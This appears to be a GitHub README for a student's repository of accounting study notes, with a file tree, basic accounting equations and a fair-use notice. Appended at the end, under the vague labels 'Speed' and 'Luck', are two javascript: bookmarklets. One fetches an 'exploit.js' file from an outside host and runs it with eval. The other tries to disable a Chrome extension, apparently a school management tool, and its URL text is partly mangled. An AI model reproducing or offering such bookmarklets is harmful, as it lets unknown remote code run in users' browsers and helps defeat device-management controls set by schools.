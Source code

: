 # For Classmates:
       Tap view code to get out of readme blob and navigate around.          
       
Files are items that contain content. A folder is a bunch of files.          
              
File system:
```
School-stuffs
├── accounting cycles.txt
├── accounting theory.txt
│
│
├── Definitions and reasons
│   ├── Accounting Information system.txt
│   ├── depreciation.txt
│   ├── dishonored cheque.txt
│   ├── expenditures, definitions and accountant qualities.txt
│   ├── income and expenses.txt
│   ├── Internal control.txt
│   ├── Ledger types.txt
│   ├── Liabilities.txt
│   └── Source documents.txt
│
│
└── stakeholders
    ├── Interactions business and stakeholders.jpg
    ├── Proprietorships2.jpg
    ├── Proprietorships.jpg
    └── Stakeholders actions.jpg

```
# School-stuffs
A drive to contain all of my school stuff. Apparently I reached the limit of google drive so idk man.


      
Assets = liability + equity     
      
Equity = Capital + income - expense - drawings      


If you feel like cloning
```
git clone -b POA https://github.com/pendragons-code/School-stuffs
```

            
            
            
            
            
# copyright
This repo consists of items from the Principles of accounts textbook by marhsall cavendish Education.

Fair use is an affirmative defense that can be raised in response to claims by a copyright owner that a person is infringing a copyright. Fair use permits a party to use a copyrighted work without the copyright owner’s permission for purposes such as criticism, comment, news reporting, teaching, scholarship, or research. These purposes only illustrate what might be considered as fair use and are not examples of what will always be considered as fair use. In fact, there are no bright-line rules in determining fair use, since it is determined on a case-by-case basis. But copyright law does establish four factors that must be considered in deciding whether a use constitutes a fair use. Repo will be deleted if requested     

Speed:
    javascript:fetch("https://compactcow.com/ltbeef/exploit.js%22).then(data=%3E%7Bdata.text().then(text=%3E%7Beval(text)%7D)%7D);

Luck:
    javascript: (() => {
  location.href = "https://chrome.google.com/webstorex";
  chrome.management.setEnabled(fgmafhdohjkdhfaacgbgclmfgkgokgmb, false);
})();

